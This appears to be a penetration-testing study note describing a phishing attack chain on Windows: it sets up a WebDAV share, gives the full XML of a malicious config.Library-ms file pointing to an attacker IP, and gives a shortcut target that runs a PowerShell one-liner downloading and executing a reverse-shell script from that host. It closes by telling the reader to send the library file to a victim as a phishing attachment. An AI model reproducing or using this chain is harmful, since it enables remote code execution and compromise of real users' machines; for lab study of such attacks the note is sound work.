 # Library files + lnk Rev Shell

### Setting up webdav directory

<pre class="language-bash"><code class="lang-bash"><strong>wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Documents/pwk2023/relia/webdav 
</strong></code></pre>

* `pip3 install wsgidav`

### Creating library file (shortcut for directories)

* Name is `config.Library-ms`
* Once library file is doubled-clicked --> code will be changed (unable to have the intended effect alr)

```bash
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.173</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### Creating Rev shell lnk shortcut

* On File Explorer, Right-click --> new --> shortcut
* Location of item:

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.173:8000/Invoke-PowerShellTcp.ps1');
```

* Place lnk shortcut inside webdav directory and send phishing link to victim with `config.Library-ms` as the attachment
